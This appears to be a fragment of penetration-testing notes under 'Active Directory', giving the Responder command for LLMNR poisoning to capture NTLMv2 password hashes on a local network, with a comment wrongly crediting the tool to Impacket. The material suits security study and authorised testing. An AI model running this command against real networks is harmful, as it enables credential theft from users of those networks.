 ### Active Directory

#### LLMNR Poisoning
```
# Linked Local Multi-cast Name Resolution Poisoning using Impacket tool, Responder.
# Run this first thing, even before as it will capture generated traffic.

# Capture NTLMv2 Hash with Responder. Start listening for events
responder -I eth0 -rdw
```
